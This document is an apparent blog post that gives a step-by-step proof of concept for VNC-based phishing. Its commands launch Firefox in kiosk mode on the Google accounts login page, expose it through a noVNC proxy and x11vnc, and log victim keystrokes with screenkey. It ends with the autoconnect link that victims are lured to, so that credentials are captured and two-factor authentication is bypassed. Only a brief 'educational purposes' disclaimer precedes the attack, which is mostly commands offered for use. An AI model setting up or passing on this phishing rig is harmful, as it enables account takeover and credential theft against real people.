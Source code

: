 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: TBA
tags: tag, tag
categories: TBA
pretty_table: true
thumbnail: TBA
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Conclusions
  - name: Credits
---
```


### Introduction

On February 19, 2022, [Mr. d0x](https://twitter.com/mrd0x) a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

Using VNC in a phishing attack is straightforward. We set up a VNC server, share our screen, specifically our browser window, and trick the victim into believing they are controlling their own browser while they are actually connected to our browser, allowing us to intercept any data that passes.

Using a library called [noVNC](https://novnc.com/), we can establish connections to VNC servers through modern web browsers.

This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Regular Two-factor authentication will not protect against this type of attack

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux

---

# PoC

First we lachnge Firefox, or any other browser in kiosk mode.

so, first what is kiosk mode?

Kiosk software is the system and user interface software designed for an interactive kiosk or Internet kiosk enclosing the system in a way that prevents user interaction and activities on the device outside the scope of execution of the netkiosk.

Why do need kiosk mode?

Without kiosk mode, the vicitim might be able to control other parts of our attacking machine, that we probarly dont want to happen.

In the terminal, run:

```bash
firefox --kisok https://accounts.google.com
```

Now in a new terminal window, we will use noVNC.

noVNC is a VNC client library that can run on almost any browsers.

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

now we need to get the id of Firefox proccess running, we can use `xwininfo | grep` run this command and select the firefox browser, the terminal will print the id back.

After we have the id, we will star a local vnc server with:

```bash
sudo apt update
sudo apt install x11vnc
x11vnc -id <firefox_window_id>
```

Almost done! Now all left to do is use some kind keylogger, we can use `screenkey` to see key presses by the victim in real time, (note: it will also show our own key presses so please be aware):

```
sudo apt install screenkey -y
screenkey
```

Now all left to do is open up the the browser from the vicitm and enter the following url: `http://<ip>:8080/vnc.html?autoconnect=true`

When the vicitim will enter this url he will see the google accounts login page, without knowing it is a streaming video that he can interact with, this is crazy!
